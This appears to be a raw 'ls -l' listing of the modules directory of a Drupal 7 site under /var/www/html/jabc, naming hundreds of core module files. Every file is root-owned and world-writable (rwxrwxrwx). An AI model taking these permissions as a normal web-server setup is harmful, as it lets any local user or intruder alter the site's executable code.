-rwxrwxrwx 1 root root 71111 Apr 16 2016 /var/www/html/jabc/modules/taxonomy/taxonomy.module
-rwxrwxrwx 1 root root 78331 Apr 16 2016 /var/www/html/jabc/modules/taxonomy/taxonomy.test
-rwxrwxrwx 1 root root 1770 Apr 16 2016 /var/www/html/jabc/modules/taxonomy/taxonomy.js
-rwxrwxrwx 1 root root 6704 Apr 16 2016 /var/www/html/jabc/modules/taxonomy/taxonomy.pages.inc
-rwxrwxrwx 1 root root 6028 Apr 16 2016 /var/www/html/jabc/modules/taxonomy/taxonomy.tokens.inc
-rwxrwxrwx 1 root root 36578 Apr 16 2016 /var/www/html/jabc/modules/taxonomy/taxonomy.admin.inc
-rwxrwxrwx 1 root root 6060 Apr 16 2016 /var/www/html/jabc/modules/taxonomy/taxonomy.api.php
-rwxrwxrwx 1 root root 2144 Apr 16 2016 /var/www/html/jabc/modules/taxonomy/taxonomy-term.tpl.php
-rwxrwxrwx 1 root root 232 Apr 16 2016 /var/www/html/jabc/modules/taxonomy/taxonomy.css
-rwxrwxrwx 1 root root 29950 Apr 16 2016 /var/www/html/jabc/modules/taxonomy/taxonomy.install
-rwxrwxrwx 1 root root 353 Apr 16 2016 /var/www/html/jabc/modules/taxonomy/taxonomy.info
-rwxrwxrwx 1 root root 3907 Apr 16 2016 /var/www/html/jabc/modules/trigger/tests/trigger_test.module
-rwxrwxrwx 1 root root 243 Apr 16 2016 /var/www/html/jabc/modules/trigger/tests/trigger_test.info
-rwxrwxrwx 1 root root 20607 Apr 16 2016 /var/www/html/jabc/modules/trigger/trigger.module
-rwxrwxrwx 1 root root 3603 Apr 16 2016 /var/www/html/jabc/modules/trigger/trigger.install
-rwxrwxrwx 1 root root 10748 Apr 16 2016 /var/www/html/jabc/modules/trigger/trigger.admin.inc
-rwxrwxrwx 1 root root 351 Apr 16 2016 /var/www/html/jabc/modules/trigger/trigger.info
-rwxrwxrwx 1 root root 2685 Apr 16 2016 /var/www/html/jabc/modules/trigger/trigger.api.php
-rwxrwxrwx 1 root root 30630 Apr 16 2016 /var/www/html/jabc/modules/trigger/trigger.test
-rwxrwxrwx 1 root root 26086 Apr 16 2016 /var/www/html/jabc/modules/menu/menu.test
-rwxrwxrwx 1 root root 1428 Apr 16 2016 /var/www/html/jabc/modules/menu/menu.admin.js
-rwxrwxrwx 1 root root 2495 Apr 16 2016 /var/www/html/jabc/modules/menu/menu.js
-rwxrwxrwx 1 root root 2579 Apr 16 2016 /var/www/html/jabc/modules/menu/menu.api.php
-rwxrwxrwx 1 root root 117 Apr 16 2016 /var/www/html/jabc/modules/menu/menu.css
-rwxrwxrwx 1 root root 7128 Apr 16 2016 /var/www/html/jabc/modules/menu/menu.install
-rwxrwxrwx 1 root root 312 Apr 16 2016 /var/www/html/jabc/modules/menu/menu.info
-rwxrwxrwx 1 root root 28283 Apr 16 2016 /var/www/html/jabc/modules/menu/menu.admin.inc
-rwxrwxrwx 1 root root 28303 Apr 16 2016 /var/www/html/jabc/modules/menu/menu.module
-rwxrwxrwx 1 root root 49269 Apr 16 2016 /var/www/html/jabc/modules/field/field.module
-rwxrwxrwx 1 root root 14322 Apr 16 2016 /var/www/html/jabc/modules/field/tests/field_test.storage.inc
-rwxrwxrwx 1 root root 8816 Apr 16 2016 /var/www/html/jabc/modules/field/tests/field_test.module
-rwxrwxrwx 1 root root 4322 Apr 16 2016 /var/www/html/jabc/modules/field/tests/field_test.install
-rwxrwxrwx 1 root root 12078 Apr 16 2016 /var/www/html/jabc/modules/field/tests/field_test.field.inc
-rwxrwxrwx 1 root root 14763 Apr 16 2016 /var/www/html/jabc/modules/field/tests/field_test.entity.inc
-rwxrwxrwx 1 root root 301 Apr 16 2016 /var/www/html/jabc/modules/field/tests/field_test.info
-rwxrwxrwx 1 root root 165446 Apr 16 2016 /var/www/html/jabc/modules/field/tests/field.test
-rwxrwxrwx 1 root root 14892 Apr 16 2016 /var/www/html/jabc/modules/field/field.install
-rwxrwxrwx 1 root root 98201 Apr 16 2016 /var/www/html/jabc/modules/field/field.api.php
-rwxrwxrwx 1 root root 25957 Apr 16 2016 /var/www/html/jabc/modules/field/field.info.inc
-rwxrwxrwx 1 root root 21380 Apr 16 2016 /var/www/html/jabc/modules/field/field.info.class.inc
-rwxrwxrwx 1 root root 22797 Apr 16 2016 /var/www/html/jabc/modules/field/field.form.inc
-rwxrwxrwx 1 root root 453 Apr 16 2016 /var/www/html/jabc/modules/field/field.info
-rwxrwxrwx 1 root root 18554 Apr 16 2016 /var/www/html/jabc/modules/field/modules/text/text.test
-rwxrwxrwx 1 root root 1671 Apr 16 2016 /var/www/html/jabc/modules/field/modules/text/text.js
-rwxrwxrwx 1 root root 2142 Apr 16 2016 /var/www/html/jabc/modules/field/modules/text/text.install
-rwxrwxrwx 1 root root 20863 Apr 16 2016 /var/www/html/jabc/modules/field/modules/text/text.module
-rwxrwxrwx 1 root root 290 Apr 16 2016 /var/www/html/jabc/modules/field/modules/text/text.info
-rwxrwxrwx 1 root root 4935 Apr 16 2016 /var/www/html/jabc/modules/field/modules/number/number.test
-rwxrwxrwx 1 root root 15245 Apr 16 2016 /var/www/html/jabc/modules/field/modules/number/number.module
-rwxrwxrwx 1 root root 274 Apr 16 2016 /var/www/html/jabc/modules/field/modules/number/number.info
-rwxrwxrwx 1 root root 873 Apr 16 2016 /var/www/html/jabc/modules/field/modules/number/number.install
-rwxrwxrwx 1 root root 20234 Apr 16 2016 /var/www/html/jabc/modules/field/modules/field_sql_storage/field_sql_storage.test
-rwxrwxrwx 1 root root 27314 Apr 16 2016 /var/www/html/jabc/modules/field/modules/field_sql_storage/field_sql_storage.module
-rwxrwxrwx 1 root root 321 Apr 16 2016 /var/www/html/jabc/modules/field/modules/field_sql_storage/field_sql_storage.info
-rwxrwxrwx 1 root root 6766 Apr 16 2016 /var/www/html/jabc/modules/field/modules/field_sql_storage/field_sql_storage.install
-rwxrwxrwx 1 root root 330 Apr 16 2016 /var/www/html/jabc/modules/field/modules/options/options.info
-rwxrwxrwx 1 root root 12059 Apr 16 2016 /var/www/html/jabc/modules/field/modules/options/options.module
-rwxrwxrwx 1 root root 2445 Apr 16 2016 /var/www/html/jabc/modules/field/modules/options/options.api.php
-rwxrwxrwx 1 root root 22687 Apr 16 2016 /var/www/html/jabc/modules/field/modules/options/options.test
-rwxrwxrwx 1 root root 266 Apr 16 2016 /var/www/html/jabc/modules/field/modules/list/tests/list_test.info
-rwxrwxrwx 1 root root 18254 Apr 16 2016 /var/www/html/jabc/modules/field/modules/list/tests/list.test
-rwxrwxrwx 1 root root 714 Apr 16 2016 /var/www/html/jabc/modules/field/modules/list/tests/list_test.module
-rwxrwxrwx 1 root root 3821 Apr 16 2016 /var/www/html/jabc/modules/field/modules/list/list.install
-rwxrwxrwx 1 root root 342 Apr 16 2016 /var/www/html/jabc/modules/field/modules/list/list.info
-rwxrwxrwx 1 root root 17623 Apr 16 2016 /var/www/html/jabc/modules/field/modules/list/list.module
-rwxrwxrwx 1 root root 10036 Apr 16 2016 /var/www/html/jabc/modules/field/field.default.inc
-rwxrwxrwx 1 root root 39613 Apr 16 2016 /var/www/html/jabc/modules/field/field.crud.inc
-rwxrwxrwx 1 root root 56278 Apr 16 2016 /var/www/html/jabc/modules/field/field.attach.inc
-rwxrwxrwx 1 root root 550 Apr 16 2016 /var/www/html/jabc/modules/field/theme/field.css
-rwxrwxrwx 1 root root 321 Apr 16 2016 /var/www/html/jabc/modules/field/theme/field-rtl.css
-rwxrwxrwx 1 root root 2736 Apr 16 2016 /var/www/html/jabc/modules/field/theme/field.tpl.php
-rwxrwxrwx 1 root root 11474 Apr 16 2016 /var/www/html/jabc/modules/field/field.multilingual.inc
-rwxrwxrwx 1 root root 79281 Apr 16 2016 /var/www/html/jabc/modules/field_ui/field_ui.admin.inc
-rwxrwxrwx 1 root root 6000 Apr 16 2016 /var/www/html/jabc/modules/field_ui/field_ui.api.php
-rwxrwxrwx 1 root root 1764 Apr 16 2016 /var/www/html/jabc/modules/field_ui/field_ui.css
-rwxrwxrwx 1 root root 283 Apr 16 2016 /var/www/html/jabc/modules/field_ui/field_ui.info
-rwxrwxrwx 1 root root 179 Apr 16 2016 /var/www/html/jabc/modules/field_ui/field_ui-rtl.css
-rwxrwxrwx 1 root root 20695 Apr 16 2016 /var/www/html/jabc/modules/field_ui/field_ui.module
-rwxrwxrwx 1 root root 30857 Apr 16 2016 /var/www/html/jabc/modules/field_ui/field_ui.test
-rwxrwxrwx 1 root root 11755 Apr 16 2016 /var/www/html/jabc/modules/field_ui/field_ui.js
-rwxrwxrwx 1 root root 2087 Apr 16 2016 /var/www/html/jabc/modules/book/book-navigation.tpl.php
-rwxrwxrwx 1 root root 2338 Apr 16 2016 /var/www/html/jabc/modules/book/book.install
-rwxrwxrwx 1 root root 355 Apr 16 2016 /var/www/html/jabc/modules/book/book.info
-rwxrwxrwx 1 root root 214 Apr 16 2016 /var/www/html/jabc/modules/book/book-rtl.css
-rwxrwxrwx 1 root root 686 Apr 16 2016 /var/www/html/jabc/modules/book/book-node-export-html.tpl.php
-rwxrwxrwx 1 root root 1902 Apr 16 2016 /var/www/html/jabc/modules/book/book-export-html.tpl.php
-rwxrwxrwx 1 root root 47943 Apr 16 2016 /var/www/html/jabc/modules/book/book.module
-rwxrwxrwx 1 root root 686 Apr 16 2016 /var/www/html/jabc/modules/book/book-all-books-block.tpl.php
-rwxrwxrwx 1 root root 15477 Apr 16 2016 /var/www/html/jabc/modules/book/book.test
-rwxrwxrwx 1 root root 1036 Apr 16 2016 /var/www/html/jabc/modules/book/book.css
-rwxrwxrwx 1 root root 9605 Apr 16 2016 /var/www/html/jabc/modules/book/book.admin.inc
-rwxrwxrwx 1 root root 7356 Apr 16 2016 /var/www/html/jabc/modules/book/book.pages.inc
-rwxrwxrwx 1 root root 589 Apr 16 2016 /var/www/html/jabc/modules/book/book.js
-rwxrwxrwx 1 root root 448 Apr 16 2016 /var/www/html/jabc/modules/README.txt
-rwxrwxrwx 1 root root 292 Apr 16 2016 /var/www/html/jabc/modules/openid/tests/openid_test.info
-rwxrwxrwx 1 root root 443 Apr 16 2016 /var/www/html/jabc/modules/openid/tests/openid_test.install
-rwxrwxrwx 1 root root 14450 Apr 16 2016 /var/www/html/jabc/modules/openid/tests/openid_test.module
-rwxrwxrwx 1 root root 380 Apr 16 2016 /var/www/html/jabc/modules/openid/openid-rtl.css
-rwxrwxrwx 1 root root 3337 Apr 16 2016 /var/www/html/jabc/modules/openid/openid.api.php
-rwxrwxrwx 1 root root 203 Apr 16 2016 /var/www/html/jabc/modules/openid/login-bg.png
-rwxrwxrwx 1 root root 3781 Apr 16 2016 /var/www/html/jabc/modules/openid/openid.pages.inc
-rwxrwxrwx 1 root root 40829 Apr 16 2016 /var/www/html/jabc/modules/openid/openid.module
-rwxrwxrwx 1 root root 37435 Apr 16 2016 /var/www/html/jabc/modules/openid/openid.test
-rwxrwxrwx 1 root root 1829 Apr 16 2016 /var/www/html/jabc/modules/openid/openid.js
-rwxrwxrwx 1 root root 6961 Apr 16 2016 /var/www/html/jabc/modules/openid/openid.install
-rwxrwxrwx 1 root root 1040 Apr 16 2016 /var/www/html/jabc/modules/openid/openid.css
-rwxrwxrwx 1 root root 273 Apr 16 2016 /var/www/html/jabc/modules/openid/openid.info
-rwxrwxrwx 1 root root 26630 Apr 16 2016 /var/www/html/jabc/modules/openid/openid.inc
-rwxrwxrwx 1 root root 19703 Apr 16 2016 /var/www/html/jabc/modules/contact/contact.test
-rwxrwxrwx 1 root root 4153 Apr 16 2016 /var/www/html/jabc/modules/contact/contact.install
-rwxrwxrwx 1 root root 322 Apr 16 2016 /var/www/html/jabc/modules/contact/contact.info
-rwxrwxrwx 1 root root 11488 Apr 16 2016 /var/www/html/jabc/modules/contact/contact.module
-rwxrwxrwx 1 root root 7398 Apr 16 2016 /var/www/html/jabc/modules/contact/contact.admin.inc
-rwxrwxrwx 1 root root 9823 Apr 16 2016 /var/www/html/jabc/modules/contact/contact.pages.inc
-rwxrwxrwx 1 root root 426 Apr 16 2016 /var/www/html/jabc/modules/dashboard/dashboard.info
-rwxrwxrwx 1 root root 6383 Apr 16 2016 /var/www/html/jabc/modules/dashboard/dashboard.test
-rwxrwxrwx 1 root root 1949 Apr 16 2016 /var/www/html/jabc/modules/dashboard/dashboard.install
-rwxrwxrwx 1 root root 2435 Apr 16 2016 /var/www/html/jabc/modules/dashboard/dashboard.css
-rwxrwxrwx 1 root root 719 Apr 16 2016 /var/www/html/jabc/modules/dashboard/dashboard-rtl.css
-rwxrwxrwx 1 root root 26784 Apr 16 2016 /var/www/html/jabc/modules/dashboard/dashboard.module
-rwxrwxrwx 1 root root 1061 Apr 16 2016 /var/www/html/jabc/modules/dashboard/dashboard.api.php
-rwxrwxrwx 1 root root 7056 Apr 16 2016 /var/www/html/jabc/modules/dashboard/dashboard.js
-rwxrwxrwx 1 root root 133 Apr 16 2016 /var/www/html/jabc/modules/help/help-rtl.css
-rwxrwxrwx 1 root root 4290 Apr 16 2016 /var/www/html/jabc/modules/help/help.module
-rwxrwxrwx 1 root root 138 Apr 16 2016 /var/www/html/jabc/modules/help/help.css
-rwxrwxrwx 1 root root 2547 Apr 16 2016 /var/www/html/jabc/modules/help/help.admin.inc
-rwxrwxrwx 1 root root 3159 Apr 16 2016 /var/www/html/jabc/modules/help/help.api.php
-rwxrwxrwx 1 root root 254 Apr 16 2016 /var/www/html/jabc/modules/help/help.info
-rwxrwxrwx 1 root root 4492 Apr 16 2016 /var/www/html/jabc/modules/help/help.test
-rwxrwxrwx 1 root root 5088 Apr 16 2016 /var/www/html/jabc/modules/node/tests/node_test.module
-rwxrwxrwx 1 root root 293 Apr 16 2016 /var/www/html/jabc/modules/node/tests/node_test_exception.info
-rwxrwxrwx 1 root root 306 Apr 16 2016 /var/www/html/jabc/modules/node/tests/node_test_exception.module
-rwxrwxrwx 1 root root 273 Apr 16 2016 /var/www/html/jabc/modules/node/tests/node_test.info
-rwxrwxrwx 1 root root 1029 Apr 16 2016 /var/www/html/jabc/modules/node/tests/node_access_test.install
-rwxrwxrwx 1 root root 6319 Apr 16 2016 /var/www/html/jabc/modules/node/tests/node_access_test.module
-rwxrwxrwx 1 root root 283 Apr 16 2016 /var/www/html/jabc/modules/node/tests/node_access_test.info
-rwxrwxrwx 1 root root 4960 Apr 16 2016 /var/www/html/jabc/modules/node/node.tpl.php
-rwxrwxrwx 1 root root 1603 Apr 16 2016 /var/www/html/jabc/modules/node/node.js
-rwxrwxrwx 1 root root 15546 Apr 16 2016 /var/www/html/jabc/modules/node/content_types.inc
-rwxrwxrwx 1 root root 23674 Apr 16 2016 /var/www/html/jabc/modules/node/node.admin.inc
-rwxrwxrwx 1 root root 144 Apr 16 2016 /var/www/html/jabc/modules/node/node.css
-rwxrwxrwx 1 root root 30519 Apr 16 2016 /var/www/html/jabc/modules/node/node.install
-rwxrwxrwx 1 root root 48009 Apr 16 2016 /var/www/html/jabc/modules/node/node.api.php
-rwxrwxrwx 1 root root 24349 Apr 16 2016 /var/www/html/jabc/modules/node/node.pages.inc
-rwxrwxrwx 1 root root 387 Apr 16 2016 /var/www/html/jabc/modules/node/node.info
-rwxrwxrwx 1 root root 138193 Apr 16 2016 /var/www/html/jabc/modules/node/node.module
-rwxrwxrwx 1 root root 5770 Apr 16 2016 /var/www/html/jabc/modules/node/node.tokens.inc
-rwxrwxrwx 1 root root 111544 Apr 16 2016 /var/www/html/jabc/modules/node/node.test
-rwxrwxrwx 1 root root 1205 Apr 16 2016 /var/www/html/jabc/modules/node/content_types.js
-rwxrwxrwx 1 root root 124071 Apr 16 2016 /var/www/html/jabc/modules/locale/locale.test
-rwxrwxrwx 1 root root 14915 Apr 16 2016 /var/www/html/jabc/modules/locale/locale.install
-rwxrwxrwx 1 root root 440 Apr 16 2016 /var/www/html/jabc/modules/locale/tests/translations/test.xx.po
-rwxrwxrwx 1 root root 1729 Apr 16 2016 /var/www/html/jabc/modules/locale/tests/locale_test.js
-rwxrwxrwx 1 root root 5545 Apr 16 2016 /var/www/html/jabc/modules/locale/tests/locale_test.module
-rwxrwxrwx 1 root root 269 Apr 16 2016 /var/www/html/jabc/modules/locale/tests/locale_test.info
-rwxrwxrwx 1 root root 909 Apr 16 2016 /var/www/html/jabc/modules/locale/locale.api.php
-rwxrwxrwx 1 root root 46247 Apr 16 2016 /var/www/html/jabc/modules/locale/locale.module
-rwxrwxrwx 1 root root 2110 Apr 16 2016 /var/www/html/jabc/modules/locale/locale.datepicker.js
-rwxrwxrwx 1 root root 311 Apr 16 2016 /var/www/html/jabc/modules/locale/locale-rtl.css
-rwxrwxrwx 1 root root 53209 Apr 16 2016 /var/www/html/jabc/modules/locale/locale.admin.inc
-rwxrwxrwx 1 root root 875 Apr 16 2016 /var/www/html/jabc/modules/locale/locale.css
-rwxrwxrwx 1 root root 385 Apr 16 2016 /var/www/html/jabc/modules/locale/locale.info
-rwxrwxrwx 1 root root 5560 Apr 16 2016 /var/www/html/jabc/modules/tracker/tracker.pages.inc
-rwxrwxrwx 1 root root 91 Apr 16 2016 /var/www/html/jabc/modules/tracker/tracker.css
-rwxrwxrwx 1 root root 6161 Apr 16 2016 /var/www/html/jabc/modules/tracker/tracker.install
-rwxrwxrwx 1 root root 9223 Apr 16 2016 /var/www/html/jabc/modules/tracker/tracker.test
-rwxrwxrwx 1 root root 12685 Apr 16 2016 /var/www/html/jabc/modules/tracker/tracker.module
-rwxrwxrwx 1 root root 295 Apr 16 2016 /var/www/html/jabc/modules/tracker/tracker.info
-rwxrwxrwx 1 root root 1672 Apr 16 2016 /var/www/html/jabc/modules/search/tests/search_extra_type.module
-rwxrwxrwx 1 root root 295 Apr 16 2016 /var/www/html/jabc/modules/search/tests/search_embedded_form.info
-rwxrwxrwx 1 root root 273 Apr 16 2016 /var/www/html/jabc/modules/search/tests/search_extra_type.info
-rwxrwxrwx 1 root root 45245 Apr 16 2016 /var/www/html/jabc/modules/search/tests/UnicodeTest.txt
-rwxrwxrwx 1 root root 1947 Apr 16 2016 /var/www/html/jabc/modules/search/tests/search_embedded_form.module
-rwxrwxrwx 1 root root 16924 Apr 16 2016 /var/www/html/jabc/modules/search/search.extender.inc
-rwxrwxrwx 1 root root 7699 Apr 16 2016 /var/www/html/jabc/modules/search/search.admin.inc
-rwxrwxrwx 1 root root 3317 Apr 16 2016 /var/www/html/jabc/modules/search/search-result.tpl.php
-rwxrwxrwx 1 root root 362 Apr 16 2016 /var/www/html/jabc/modules/search/search.info
-rwxrwxrwx 1 root root 51196 Apr 16 2016 /var/www/html/jabc/modules/search/search.module
-rwxrwxrwx 1 root root 1172 Apr 16 2016 /var/www/html/jabc/modules/search/search-block-form.tpl.php
-rwxrwxrwx 1 root root 221 Apr 16 2016 /var/www/html/jabc/modules/search/search-rtl.css
-rwxrwxrwx 1 root root 13021 Apr 16 2016 /var/www/html/jabc/modules/search/search.api.php
-rwxrwxrwx 1 root root 1051 Apr 16 2016 /var/www/html/jabc/modules/search/search-results.tpl.php
-rwxrwxrwx 1 root root 5333 Apr 16 2016 /var/www/html/jabc/modules/search/search.install
-rwxrwxrwx 1 root root 564 Apr 16 2016 /var/www/html/jabc/modules/search/search.css
-rwxrwxrwx 1 root root 5633 Apr 16 2016 /var/www/html/jabc/modules/search/search.pages.inc
-rwxrwxrwx 1 root root 79116 Apr 16 2016 /var/www/html/jabc/modules/search/search.test
-rwxrwxrwx 1 root root 809 Apr 16 2016 /var/www/html/jabc/modules/poll/poll.css
-rwxrwxrwx 1 root root 2897 Apr 16 2016 /var/www/html/jabc/modules/poll/poll.tokens.inc
-rwxrwxrwx 1 root root 822 Apr 16 2016 /var/www/html/jabc/modules/poll/poll-results--block.tpl.php
-rwxrwxrwx 1 root root 33969 Apr 16 2016 /var/www/html/jabc/modules/poll/poll.test
-rwxrwxrwx 1 root root 30860 Apr 16 2016 /var/www/html/jabc/modules/poll/poll.module
-rwxrwxrwx 1 root root 797 Apr 16 2016 /var/www/html/jabc/modules/poll/poll-vote.tpl.php
-rwxrwxrwx 1 root root 709 Apr 16 2016 /var/www/html/jabc/modules/poll/poll-bar--block.tpl.php
-rwxrwxrwx 1 root root 6080 Apr 16 2016 /var/www/html/jabc/modules/poll/poll.install
-rwxrwxrwx 1 root root 134 Apr 16 2016 /var/www/html/jabc/modules/poll/poll-rtl.css
-rwxrwxrwx 1 root root 344 Apr 16 2016 /var/www/html/jabc/modules/poll/poll.info
-rwxrwxrwx 1 root root 775 Apr 16 2016 /var/www/html/jabc/modules/poll/poll-bar.tpl.php
-rwxrwxrwx 1 root root 3127 Apr 16 2016 /var/www/html/jabc/modules/poll/poll.pages.inc
-rwxrwxrwx 1 root root 789 Apr 16 2016 /var/www/html/jabc/modules/poll/poll-results.tpl.php
-rwxrwxrwx 1 root root 9949 Apr 16 2016 /var/www/html/jabc/modules/path/path.admin.inc
-rwxrwxrwx 1 root root 11968 Apr 16 2016 /var/www/html/jabc/modules/path/path.module
-rwxrwxrwx 1 root root 20176 Apr 16 2016 /var/www/html/jabc/modules/path/path.test
-rwxrwxrwx 1 root root 284 Apr 16 2016 /var/www/html/jabc/modules/path/path.info
-rwxrwxrwx 1 root root 420 Apr 16 2016 /var/www/html/jabc/modules/path/path.js
-rwxrwxrwx 1 root root 1484 Apr 16 2016 /var/www/html/jabc/modules/path/path.api.php
-rwxrwxrwx 1 root root 11750 Apr 16 2016 /var/www/html/jabc/modules/dblog/dblog.admin.inc
-rwxrwxrwx 1 root root 1398 Apr 16 2016 /var/www/html/jabc/modules/dblog/dblog.css
-rwxrwxrwx 1 root root 279 Apr 16 2016 /var/www/html/jabc/modules/dblog/dblog.info
-rwxrwxrwx 1 root root 23279 Apr 16 2016 /var/www/html/jabc/modules/dblog/dblog.test
-rwxrwxrwx 1 root root 6980 Apr 16 2016 /var/www/html/jabc/modules/dblog/dblog.module
-rwxrwxrwx 1 root root 4151 Apr 16 2016 /var/www/html/jabc/modules/dblog/dblog.install
-rwxrwxrwx 1 root root 175 Apr 16 2016 /var/www/html/jabc/modules/dblog/dblog-rtl.css
-rwxrwxrwx 1 root root 18124 Apr 16 2016 /var/www/html/jabc/modules/profile/profile.admin.inc
-rwxrwxrwx 1 root root 574 Apr 16 2016 /var/www/html/jabc/modules/profile/profile.info
-rwxrwxrwx 1 root root 4515 Apr 16 2016 /var/www/html/jabc/modules/profile/profile.pages.inc
-rwxrwxrwx 1 root root 4875 Apr 16 2016 /var/www/html/jabc/modules/profile/profile.install
-rwxrwxrwx 1 root root 19092 Apr 16 2016 /var/www/html/jabc/modules/profile/profile.test
-rwxrwxrwx 1 root root 819 Apr 16 2016 /var/www/html/jabc/modules/profile/profile-wrapper.tpl.php
-rwxrwxrwx 1 root root 1646 Apr 16 2016 /var/www/html/jabc/modules/profile/profile-listing.tpl.php
-rwxrwxrwx 1 root root 23050 Apr 16 2016 /var/www/html/jabc/modules/profile/profile.module
-rwxrwxrwx 1 root root 1365 Apr 16 2016 /var/www/html/jabc/modules/profile/profile-block.tpl.php
-rwxrwxrwx 1 root root 2697 Apr 16 2016 /var/www/html/jabc/modules/profile/profile.js
-rwxrwxrwx 1 root root 168 Apr 16 2016 /var/www/html/jabc/modules/profile/profile.css
-rwxrwxrwx 1 root root 7661 Apr 16 2016 /var/www/html/jabc/modules/php/php.module
-rwxrwxrwx 1 root root 274 Apr 16 2016 /var/www/html/jabc/modules/php/php.info
-rwxrwxrwx 1 root root 4567 Apr 16 2016 /var/www/html/jabc/modules/php/php.test
-rwxrwxrwx 1 root root 1616 Apr 16 2016 /var/www/html/jabc/modules/php/php.install
-rwxrwxrwx 1 root root 1122 Apr 16 2016 /var/www/html/jabc/modules/overlay/overlay-parent.css
-rwxrwxrwx 1 root root 1057 Apr 16 2016 /var/www/html/jabc/modules/overlay/overlay.api.php
-rwxrwxrwx 1 root root 37714 Apr 16 2016 /var/www/html/jabc/modules/overlay/overlay-parent.js
-rwxrwxrwx 1 root root 6696 Apr 16 2016 /var/www/html/jabc/modules/overlay/overlay-child.js
-rwxrwxrwx 1 root root 347 Apr 16 2016 /var/www/html/jabc/modules/overlay/images/close-rtl.png
-rwxrwxrwx 1 root root 75 Apr 16 2016 /var/www/html/jabc/modules/overlay/images/background.png
-rwxrwxrwx 1 root root 344 Apr 16 2016 /var/www/html/jabc/modules/overlay/images/close.png
-rwxrwxrwx 1 root root 35988 Apr 16 2016 /var/www/html/jabc/modules/overlay/overlay.module
-rwxrwxrwx 1 root root 480 Apr 16 2016 /var/www/html/jabc/modules/overlay/overlay.install
-rwxrwxrwx 1 root root 261 Apr 16 2016 /var/www/html/jabc/modules/overlay/overlay.info
-rwxrwxrwx 1 root root 3351 Apr 16 2016 /var/www/html/jabc/modules/overlay/overlay-child.css
-rwxrwxrwx 1 root root 1368 Apr 16 2016 /var/www/html/jabc/modules/overlay/overlay.tpl.php
-rwxrwxrwx 1 root root 571 Apr 16 2016 /var/www/html/jabc/modules/overlay/overlay-child-rtl.css
-rwxrwxrwx 1 root root 140718 Apr 16 2016 /var/www/html/jabc/modules/system/system.module
-rwxrwxrwx 1 root root 6935 Apr 16 2016 /var/www/html/jabc/modules/system/page.tpl.php
-rwxrwxrwx 1 root root 6564 Apr 16 2016 /var/www/html/jabc/modules/system/language.api.php
-rwxrwxrwx 1 root root 4699 Apr 16 2016 /var/www/html/jabc/modules/system/system.js
-rwxrwxrwx 1 root root 115564 Apr 16 2016 /var/www/html/jabc/modules/system/system.admin.inc
-rwxrwxrwx 1 root root 11840 Apr 16 2016 /var/www/html/jabc/modules/system/image.gd.inc
-rwxrwxrwx 1 root root 110415 Apr 16 2016 /var/www/html/jabc/modules/system/system.test
-rwxrwxrwx 1 root root 8991 Apr 16 2016 /var/www/html/jabc/modules/system/theme.api.php
-rwxrwxrwx 1 root root 811 Apr 16 2016 /var/www/html/jabc/modules/system/system.theme-rtl.css
-rwxrwxrwx 1 root root 5350 Apr 16 2016 /var/www/html/jabc/modules/system/system.base.css
-rwxrwxrwx 1 root root 462 Apr 16 2016 /var/www/html/jabc/modules/system/system.info
-rwxrwxrwx 1 root root 197304 Apr 16 2016 /var/www/html/jabc/modules/system/system.api.php
-rwxrwxrwx 1 root root 2035 Apr 16 2016 /var/www/html/jabc/modules/system/system.menus.css
-rwxrwxrwx 1 root root 4645 Apr 16 2016 /var/www/html/jabc/modules/system/system.mail.inc
-rwxrwxrwx 1 root root 811 Apr 16 2016 /var/www/html/jabc/modules/system/system.maintenance.css
-rwxrwxrwx 1 root root 2733 Apr 16 2016 /var/www/html/jabc/modules/system/html.tpl.php
-rwxrwxrwx 1 root root 869 Apr 16 2016 /var/www/html/jabc/modules/system/system.base-rtl.css
-rwxrwxrwx 1 root root 5117 Apr 16 2016 /var/www/html/jabc/modules/system/system.admin.css
-rwxrwxrwx 1 root root 551 Apr 16 2016 /var/www/html/jabc/modules/system/system.menus-rtl.css
-rwxrwxrwx 1 root root 3095 Apr 16 2016 /var/www/html/jabc/modules/system/system.archiver.inc
-rwxrwxrwx 1 root root 12625 Apr 16 2016 /var/www/html/jabc/modules/system/system.queue.inc
-rwxrwxrwx 1 root root 176 Apr 16 2016 /var/www/html/jabc/modules/system/system.messages-rtl.css
-rwxrwxrwx 1 root root 1306 Apr 16 2016 /var/www/html/jabc/modules/system/region.tpl.php
-rwxrwxrwx 1 root root 3018 Apr 16 2016 /var/www/html/jabc/modules/system/maintenance-page.tpl.php
-rwxrwxrwx 1 root root 8137 Apr 16 2016 /var/www/html/jabc/modules/system/system.tokens.inc
-rwxrwxrwx 1 root root 961 Apr 16 2016 /var/www/html/jabc/modules/system/system.messages.css
-rwxrwxrwx 1 root root 63840 Apr 16 2016 /var/www/html/jabc/modules/system/system.tar.inc
-rwxrwxrwx 1 root root 1474 Apr 16 2016 /var/www/html/jabc/modules/system/system.admin-rtl.css
-rwxrwxrwx 1 root root 114732 Apr 16 2016 /var/www/html/jabc/modules/system/system.install
-rwxrwxrwx 1 root root 3711 Apr 16 2016 /var/www/html/jabc/modules/system/system.theme.css
-rwxrwxrwx 1 root root 4671 Apr 16 2016 /var/www/html/jabc/modules/system/system.updater.inc
-rwxrwxrwx 1 root root 489 Apr 16 2016 /var/www/html/jabc/modules/system/system.cron.js
-rwxrwxrwx 1 root root 67191 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/entity_query.test
-rwxrwxrwx 1 root root 267 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/ajax_forms_test.info
-rwxrwxrwx 1 root root 113799 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/common.test
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/system_incompatible_module_version_dependencies_test.module
-rwxrwxrwx 1 root root 203 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/module_test.file.inc
-rwxrwxrwx 1 root root 261 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_test_1.info
-rwxrwxrwx 1 root root 56529 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/form_test.module
-rwxrwxrwx 1 root root 6143 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/entity_crud_hook_test.module
-rwxrwxrwx 1 root root 143122 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/database_test.test
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_test_1.module
-rwxrwxrwx 1 root root 1627 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/update_test_1.install
-rwxrwxrwx 1 root root 19252 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/mail.test
